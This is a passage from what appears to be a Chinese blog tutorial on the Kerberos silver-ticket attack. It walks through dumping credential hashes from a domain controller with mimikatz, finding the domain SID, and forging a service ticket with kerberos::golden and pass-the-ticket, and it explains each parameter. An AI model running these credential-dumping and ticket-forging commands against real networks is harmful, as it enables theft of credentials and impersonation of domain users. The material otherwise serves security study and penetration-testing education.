 &ensp;&ensp;&ensp;&ensp;发送内容⑥：K(c,s)加密[Authenticator]

# 0x03 白银票据分析及利用

&ensp;&ensp;&ensp;&ensp;白银票据是一个有效的票据授予服务（TGS）Kerberos票据，因为Kerberos验证服务运行的每台服务器都对服务主体名称的服务帐户进行加密和签名。

&ensp;&ensp;&ensp;&ensp;白银票据主要是发生在第五步骤上。

## 1.首先我们尝试访问目标服务器根目录
![dir](https://img-blog.csdnimg.cn/20200313125239529.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70)

&ensp;&ensp;&ensp;&ensp;访问主域控文件共享，可以看到是无法访问的，说明当前用户密码存在问题，也可以理解为无权限。

## 2.抓取hash

&ensp;&ensp;&ensp;&ensp;用域管理账号登录主域控，使用工具mimikatz.exe执行命令抓取hash（在域控中执行）：

```cmd
#mimikatz.exe “privilege::debug” “sekurlsa::logonpasswords” exit>log.txt
```

![mimiakatz hash](https://img-blog.csdnimg.cn/20200313125259284.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70)

## 3.在Client端查看SID号
&ensp;&ensp;&ensp;&ensp;在Client端查看SID号（在Cient端执行），复制并保存，也可以根据上一步mimikatz导出的文件中找到。

![SID](https://img-blog.csdnimg.cn/20200313125458331.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70)

## 4.创建票据

&ensp;&ensp;&ensp;&ensp;将在域控上抓取的hash也就是NTML值的复制到Client端，打开mimikatz.exe工具(在Cient端执行)，创建票据

```cmd
#kerberos::golden /domain:<域名> /sid:<域 SID> /target:<目标服务器主机名> /service:<服务类型> /rc4:<NTLM Hash> /user:<用户名> /ptt
```

![09](https://img-blog.csdnimg.cn/2020031312551040.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70)

```txt
kerberos::golden：使用minikatz中票据的功能
/domain：指定域名
/sid：Client端查询的sid号，在域控中查询也可以，都是一样的
/target：主域控中的计算机全名
/rc4：在域控中抓取的hash(NTLM)
/service：需要伪造的服务（cifs只是其中的一种服务，可伪造的服务很多）
/user：需要伪造的用户名（可自定义）
/ppt：伪造了以后直接写入到内存中
```

## 5.查看票据
